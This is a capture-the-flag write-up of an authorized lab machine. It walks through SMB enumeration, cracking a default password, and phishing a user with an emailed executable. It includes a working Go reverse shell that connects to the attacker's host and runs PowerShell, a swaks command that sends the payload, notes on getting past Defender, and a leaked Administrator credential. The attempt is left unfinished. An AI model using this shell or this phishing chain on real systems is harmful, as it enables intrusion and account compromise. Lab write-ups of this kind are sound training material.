# Evasive

**Difficulty:** Medium  
**Category:** Windows, Phishing, Client-Side Attack

## Attack Chain

1. Anonymous SMB access leaks an internal note (users Roger and Alfonso, plus a default password pattern)
2. EXIF metadata from an SMB file reveals the current year, used to adjust the default password
3. The adjusted password cracks Roger's SMTP credentials
4. A phishing `.exe` crafted with `msfvenom` is emailed to Alfonso via `swaks`, no callback
5. A custom Go reverse shell, cross-compiled for Windows, is sent the same way
6. Still no callback; changing the listener port produces an "invalid shell" error
7. Investigation left open, payload delivery never lands a shell

## TL;DR

Initial recon found SMTP, SMB, and HTTP open, with directory brute-forcing turning up nothing useful. Anonymous SMB access was more productive: an internal file revealed two users, Roger and Alfonso, along with a note that Alfonso was expecting a `.exe` from Roger by email, plus a default password pattern (`NewUser2024!`) that didn't work as-is. Metadata from an SMB file pinned the current year, and adjusting the password's year to match cracked Roger's real credentials. From there, a phishing `.exe` was crafted and emailed to Alfonso as Roger via `swaks`. A first payload built with `msfvenom` got no callback; a second attempt used a custom Go reverse shell, cross-compiled for Windows to slip past Defender. That didn't connect either, and switching the listener port produced an "invalid shell" error. The walkthrough ends there, mid-troubleshoot.

## Full Walkthrough

### Credentials Found

A set of credentials for what looks like a Windows dev machine, possibly used for exploit crafting, surfaced during the engagement:

```
Administrator:g.xyX4-rX3@odAm*
```

### Initial Enumeration

The initial scan shows SMTP, POP3, IMAP, and submission open (worth noting for a phishing angle later), alongside HTTP and SMB.



HTTP enumeration:



Feroxbuster turns up no directories:



### SMB Enumeration

`enum4linux`:



`smbclient`:





Checking whether a share is actually accessible:



It is. Inspecting its contents:



Two useful pieces of information turn up: two users, Roger and Alfonso, and a note that Alfonso is expecting an `.exe` program from Roger by email.



A default password is also floating around: `NewUser2024!`. Testing it against Alfonso:



No luck. More users are needed, but UDP 161 is closed, ruling out SNMP. RPC enumeration is tried next:



Nothing there either. SMTP enumeration:



Requires authentication. A check for other open ports:



Nothing further. SMTP authentication looks like the way in, needed to send a malicious `.exe` to Alfonso that phones back to the attacking host. Brute-forcing is off the table: the mail component has anti-brute-force protection, and Defender is running on the host. A search for stray `.txt`/`.pdf` files with Feroxbuster also comes up empty.

### Cracking the Password with Metadata

Running `exiftool` against a recovered file reveals the current year:



The default password format used 2024. Adjusting it to match the current year gives `NewUser2025!`:



Roger's password turns out to be exactly that.

### Building the Phishing Payload

With valid SMTP credentials for Roger, the next step is sending Alfonso the `.exe` he's expecting.

**Attempt 1: msfvenom**

A simple payload encoded with `shikata_ga_nai`, 10 iterations:



Creating the email body:



Starting a Penelope listener:



Sending the message as Roger with `swaks`:

```
sudo swaks -t alfonso@winserver01.hs \
  --from roger@winserver01.hs \
  --attach @program.exe \
  --server 10.1.128.246 \
  --body @body.txt \
  --header "Subject: Program.exe" \
  --suppress-data \
  -ap
```



No callback. The msfvenom payload needed replacing with something less likely to get flagged.

**Attempt 2: a custom Go reverse shell**

A minimal Go reverse shell, chosen because it's less likely to be caught by AV than a stock Meterpreter binary:

```go
package main

import (
    "net"
    "os/exec"
)

func main() {
    c, _ := net.Dial("tcp", "10.200.75.141:1234")
    cmd := exec.Command("powershell")
    cmd.Stdin = c
    cmd.Stdout = c
    cmd.Stderr = c
    cmd.Run()
}
```



Cross-compiling for Windows from Linux with `go build`, per [this guide](https://stackoverflow.com/questions/41566495/golang-how-to-cross-compile-on-linux-for-windows):

```
GOOS=windows GOARCH=386 \
  CGO_ENABLED=1 CXX=i686-w64-mingw32-g++ CC=i686-w64-mingw32-gcc \
  go build -o program.exe rev.go
```



With the binary built, Penelope is started again and the message resent through `swaks`:



Still no shell. Adjusting the listener to port 4445, rebuilding, and resending:



This time an "invalid shell" error comes back. The walkthrough ends here, mid-troubleshoot on the payload delivery.

---

*Educational write-up from an authorized lab environment (HackSmarter). Not a guide for unauthorized access.*
